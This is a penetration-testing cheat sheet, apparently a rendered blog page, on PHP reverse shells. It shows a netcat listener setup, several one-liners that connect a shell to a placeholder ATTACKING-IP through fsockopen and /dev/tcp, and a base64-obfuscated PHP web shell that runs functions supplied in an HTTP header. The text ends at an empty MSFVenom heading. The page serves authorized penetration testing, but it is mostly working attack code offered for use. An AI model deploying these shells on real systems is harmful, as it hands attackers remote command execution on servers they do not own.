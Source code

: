 To setup a listening netcat instance, enter the following:

{% highlight bash %}
root@kali:~# nc -nvlp 80
nc: listening on :: 80 ...
nc: listening on 0.0.0.0 80 ...
{% endhighlight %}

<div class="note info">
  <h5>NAT requires a port forward</h5>
  <p>If you're attacking machine is behing a NAT router, you'll need to setup a port forward to the attacking machines IP / Port.</p>
</div>

**ATTACKING-IP** is the machine running your listening netcat session, port 80 is used in all examples below (for reasons mentioned above).


## PHP Reverse Shell

The following section contains PHP reverse shells that have been tested working. 

A simple PHP reverse shell:

{% highlight bash %}
php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
(Assumes TCP uses file descriptor 3. If it doesn't work, try 4,5, or 6)
{% endhighlight %}

### PHP Reverse Shell One Liner

A short one line reverse PHP shell (that was submitted via Twitter):

{% highlight bash %}
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/"ATTACKING IP"/443 0>&1'");?>
{% endhighlight %}

### Short One Liner PHP Reverse Shell 

Another short oneliner PHP Revshell: 

{% highlight bash %}
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/ATTACKING-IP/1234 0>&1'");
{% endhighlight %}

### Base64 PHP Shell

Base64 encoded PHP Shell by @0xInfection: 

```
<?=$x=explode('~',base64_decode(substr(getallheaders()['x'],1)));@$x[0]($x[1]);
```

### MSFVenom PHP Reverse Shell 
